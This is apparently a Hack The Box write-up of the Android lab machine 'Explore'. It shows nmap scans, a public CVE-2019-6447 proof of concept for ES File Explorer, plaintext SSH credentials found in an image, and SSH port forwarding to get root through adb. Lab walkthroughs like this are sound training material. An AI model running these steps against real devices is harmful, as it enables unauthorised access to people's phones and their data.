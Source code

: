 ```yaml
---
title:     "Hack The Box - Explore"
tags: [easy,android,adb,cve]
categories: HackTheBox
excerpt: "Explore is an easy rated machine on HackTheBox by [bertolis](https://www.hackthebox.eu/home/users/profile/27897). For the user part we will exploit an open port for ES file explorer to retrieve ssh credentials in a jpg file. After this we will abuse adb being enabled and listening to get a shell as the root user after forwarding it to our machine."
image: /img/explore/info_card.png
---
```


# User
Explore is an easy rated machine on HackTheBox by [bertolis](https://www.hackthebox.eu/home/users/profile/27897). For the user part we will exploit an open port for ES file explorer to retrieve ssh credentials in a jpg file. After this we will abuse adb being enabled and listening to get a shell as the root user after forwarding it to our machine.

## Nmap

As always we start our enumeration off with a nmap scan against all ports, followed by a script and version detection scan against the open ones to get an overview of the initial attack surface.

`All ports`

```js
$ sudo nmap -p- -T4 10.129.167.241
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 20:21 GMT
Nmap scan report for 10.129.167.241
Host is up (0.044s latency).
Not shown: 65531 closed ports
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
5555/tcp  filtered freeciv
38363/tcp open     unknown
59777/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 82.24 seconds
```

`Script and version`

```js
$ sudo nmap -sC -sV -p 2222,5555,38363,59777 10.129.167.241
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 20:25 GMT
Nmap scan report for 10.129.167.241
Host is up (0.033s latency).

PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey:
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
38363/tcp open     unknown
| fingerprint-strings:
|   GenericLines:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:04 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest:
|     HTTP/1.1 412 Precondition Failed
|     Date: Sun, 27 Jun 2021 20:27:04 GMT
|     Content-Length: 0
|   HTTPOptions:
|     HTTP/1.0 501 Not Implemented
|     Date: Sun, 27 Jun 2021 20:27:10 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:25 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:10 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:25 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:25 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ??random1random2random3random4
|   TerminalServerCookie:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:25 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|_    Cookie: mstshash=nmap
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
...[snip]...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.22 seconds
```

# ES file explorer

Port 59777 on an android device is normally used for ES file explorer. Opening the port in our webbrowser we see that directory listing is disabled.

[![listing_disabled](/img/explore/listing_disabled.png)](/img/explore/listing_disabled.png)

The running installation is vulnerable to [CVE-2019-6447](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln), which let's us read files from the device or start an app. Looking through the images on the device we find an interesting looking `creds.jpg` file.

```js
$ python poc.py  --cmd listPics --ip 10.129.167.241
[*] Executing command: listPics on 10.129.167.241
[*] Server responded with: 200

{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}
```

The image shows a note with the password for the user katie. Trying it on the open ssh port with the credentials `kristi:Kr1sT!5h@Rp3xPl0r3!` we get access to the device.

[![creds](/img/explore/creds.png)](/img/explore/creds.png)

```js
$ ssh kristi@10.129.167.241 -p 2222
Password authentication
Password:
:/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
:/ $
```

Looking around in the storage folder which also had the image in it we find the user flag.

```js
:/storage/emulated/0 $ wc -c user.txt
33 user.txt
```

# Root

We earlier saw that port 5555 showed up in our nmap scan. This is most likely the Android Debug Bridge being enabled on the device.

> “The adb command facilitates a variety of device actions, such as installing and debugging apps, and it provides access to a Unix shell that you can use to run a variety of commands on a device.” — Android’s developer portal

Being able to communicate with it would most likely give us unauthenticated root access to the device.
Checking it again we can see it is listening on all interfaces but seems to be filtered for us.

```js
:/storage/emulated/0 $ ss -ln
Netid  State      Recv-Q Send-Q Local Address:Port               Peer Address:Port
...[snip]...
tcp    LISTEN     0      50        *:2222                  *:*
tcp    LISTEN     0      4         *:5555                  *:*
```

We can however access it if we forward the port to our machine with ssh. For this we open the ssh console in our connection by entering `~C` on a new line and issue the local port forward.

```js
:/storage/emulated/0 $
ssh> -L:5555:127.0.0.1:5555
Forwarding port.
```

After installing adb on our machine with `apt install adb` we kill the adb server, in case it was already running, so it restarts on the next command.

```js
$ adb kill-server
```

We then list all devices to be able to connect to our target with its device name in the next step.

```js
$ adb devices
* daemon not running; starting now at tcp:5037

* daemon started successfully
List of devices attached
emulator-5554   device

```

Now we can simply connect to the debugging bridge as the root user and drop into a root shell with `adb shell`.

```js
$ adb -s emulator-5554 root
restarting adbd as root
```

```js
$ adb shell
x86_64:/ # whoami
root
```

Being the root user we can now add the flag to our collection

```js
x86_64:/ # wc -c /data/root.txt
33 /data/root.txt
```
